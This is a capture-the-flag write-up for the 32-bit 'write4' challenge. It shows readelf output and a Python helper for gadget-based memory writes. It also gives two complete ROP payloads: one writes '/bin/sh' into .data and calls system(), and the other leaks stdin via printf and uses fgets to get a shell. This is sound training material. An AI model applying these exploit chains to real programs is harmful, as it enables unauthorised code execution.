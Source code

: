 # write4 - 32bit

### gadget exploit

This challenge involves us using gadgets to write data onto the stack.

Checking areas we can write to can be achived with this command:
```
$ readelf --sections write432

There are 31 section headers, starting at offset 0x196c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000030 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481dc 0001dc 0000d0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          080482ac 0002ac 000081 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          0804832e 00032e 00001a 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048348 000348 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             08048368 000368 000020 08   A  5   0  4
  [10] .rel.plt          REL             08048388 000388 000038 08  AI  5  24  4
  [11] .init             PROGBITS        080483c0 0003c0 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483f0 0003f0 000080 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048470 000470 000008 00  AX  0   0  8
  [14] .text             PROGBITS        08048480 000480 000262 00  AX  0   0 16
  [15] .fini             PROGBITS        080486e4 0006e4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080486f8 0006f8 000064 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        0804875c 00075c 00003c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048798 000798 00010c 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        0804a000 001000 000028 04  WA  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
  [26] .bss              NOBITS          0804a040 001030 00002c 00  WA  0   0 32
  [27] .comment          PROGBITS        00000000 001030 000034 01  MS  0   0  1
  [28] .shstrtab         STRTAB          00000000 001861 00010a 00      0   0  1
  [29] .symtab           SYMTAB          00000000 001064 000510 10     30  50  4
  [30] .strtab           STRTAB          00000000 001574 0002ed 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

Looking through this for an area gives us the best candiate:

```
[25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
```

We can then check if the `.data` section is empty with the command below:

```
$ readelf -x .data write432

Hex dump of section '.data':
  0x0804a028 00000000 00000000                   ........
```

Nothing currently resides in `.data`. This, therefore, makes it the perfect candiate for out date injection.

The next step is to look for some gadgets to move data into this memory address. We are looking for a `mov [<REG>], [REG]` gadget that will allow us
to move data into an address of our choice.

The chosen gadget is below:
```
0x08048670 : mov dword ptr [edi], ebp ; ret
```

This then means if we find some `pop` gadgets for `edi` and `ebp` we can add data to the location of our choice.
`edi` will hold the memory location of `.data` and `ebp` the string to write.

Putting this all together allows us to create a helper method used to write 4 bytes of a string in one call

```python
def write_string_to_memory(start_addr, string_data, g_pop, g_mov):

    # Pads the string
    required = abs((len(string_data) % 4) - 4)
    string_data += " " * required

    # Split the string into sets of 4
    chunks = re.findall(r"....", string_data)

    # Writes data to memory
    payload = b""
    for c in chunks:
        payload += g_pop
        payload += p32(start_addr)
        payload += str.encode(c)
        payload += g_mov

        # Increment the address each time
        start_addr += 4

    return payload
```

This then enables us to craft the payload dynamically using the gadgets.

To finish off the exploit, a call to system is used with the start location of the string.

Overall the payload is formed like so:

```python
payload = b""
payload += junk # x 44
payload += write_string_to_memory(string_location, "/bin/sh", g_pop_pop, g_mov) 
payload += system_func
payload += p32(0x90) # exit addr
payload += p32(string_location)
```

### fgets exploit

Another way to exploit this binary is via a `fgets` call. This allows us to write data via `stdin` to a specified location.
The exploit will also utilise `pwntools` ROP functionality to easily craft an exploit.

First the exploit grabs important addresses from the `elf`. Note: the `.data` address is obtained in exactly the same way as the previous exploit.

```python
printf  = e.symbols[b"printf"]
main    = e.symbols[b"main"]
stdin   = e.symbols[b"stdin"]
fgets   = e.symbols[b"fgets"]
buffer_mem = 0x0804a028 #.data
```

Our first ROP chain will use the `printf` address to leak the location of `stdin`.

This is achieved like so:
```python
rop = ROP(e)
rop.call(printf, (stdin,))
rop.call(main, (0,0,0,))
payload = (b"\x41" * BUFFER_LEN) + rop.chain()
p.sendline(payload)
```

And the leaked address is obtained with:
```python
data = p.recv()
stdin_buf = unpack(data[0:4])
```

This then leads to out second chain where we can send data via `stdin` that will then be placed into our desired memory location.


Our second chain starts like so:

```python
rop = ROP(e)
rop.call(fgets, (buffer_mem, 0x15, stdin_buf,))
rop.call(main, (0,0,0,))
payload = (b"\x41" * BUFFER_LEN) + rop.chain()
p.sendline(payload)
```

Then anything send via `stdin` will be placed in the `buffer_mem` location.

```python
p.sendline("/bin/sh")
```

Our final chain will then use the local `system` address to call the memory location of our string.

```python
rop = ROP(e)
rop.system(buffer_mem)
payload = (b"\x41" * BUFFER_LEN) + rop.chain()
p.sendline(payload)
```

Then calling `p.interactive()` will provide us a shell!